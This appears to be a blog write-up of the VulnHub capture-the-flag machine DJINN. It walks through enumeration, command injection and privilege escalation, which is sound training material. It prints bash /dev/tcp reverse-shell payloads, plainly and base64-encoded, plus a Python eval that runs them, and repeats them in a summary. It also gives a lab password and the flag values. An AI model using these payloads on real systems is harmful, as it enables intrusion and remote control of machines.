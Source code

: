 ```yaml
---
title: DJINN
categories: [VulnHub]
tags: [FTP, Command Injection, PrivEsc]
image:
  path: https://www.vulnhub.com/media/img/entry/djinn-01.png
  alt: DJINN Machine !
---
```



## **Description ⤵️**


💡 [DJINN](https://www.vulnhub.com/entry/djinn-1,397/)

- Level: Beginner-Intermediate
- flags: user.txt and root.txt
- Description: The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to find and read two flags (user and root) which is present in user.txt and root.txt respectively.
- Format: Virtual Machine (Virtualbox - OVA)
- Operating System: Linux


### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/DJINN/Untitled.png)

```bash
IP : 10.0.2.12
```
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%202.png)

```bash
OPEN PORTS >
21  FTP (Anonymous Login Allowed)
22  filtered ssh (Means there is a way to open this may be through knocking ports)
1337 waste ? [I have to check it through netcat]
7331 http (may be vulnerable)
```
{: .nolineno}

---

## FTP Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%204.png)

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%206.png)

After Executing id command I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%207.png)

Now after many hardwork I got to know that for achiving reverse shell I need to decode the encoded code inside the Execute command → 

After so much of hardwork I got to know that base 64 encoded code is executing which decoding it inside the command injection : →

```bash
payload →
bash -i >& /dev/tcp/10.0.2.10/4444 0>&1
Execute →
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg==" | base64 -d | bash
```
{: .nolineno}

Now in return I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%209.png)

```bash
nitish:p4ssw0rdStr3r0n9
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2010.png)

```bash
user.txt → 10aay8289ptgguy1pvfa73alzusyyx3c
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2011.png)

Now lets exploit →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2012.png)

Lets see how sam can lead us to sam →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2013.png)

.pyc file in `/home/sam/.pyc` After tranfering to attackers machine when I opened it I got to know this part →

```python
def guessit():
		num = randint(1, 101)
		print("Choose a number between 1 to 100: ")
		try:
		    s = input("Enter your number: ")
		    if s == num:  <------ This part num
		        system("/bin/sh")
		    else:
		        print("Better Luck next time")
		except:
		    print("Slow claps again")
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2014.png)

Root !! got it →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2015.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2016.png)

proof.txt → `33eur2wjdmq80z47nyy4fx54bnlg3ibc`

<hr>

# **Summery Notes →**

> **bash** -i >**&** **/**dev**/**tcp**/**10.0.2.10**/**4444 **0>&**1 
> **echo** YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== **|** base64 -d **|** **bash** 
> **sudo** -u sam **/**usr**/**bin**/**genie -cmd **whoami** 
> **eval** **(**'__import__("os").system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== | base64 -d | bash")'**)**
{: .prompt-tip }

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }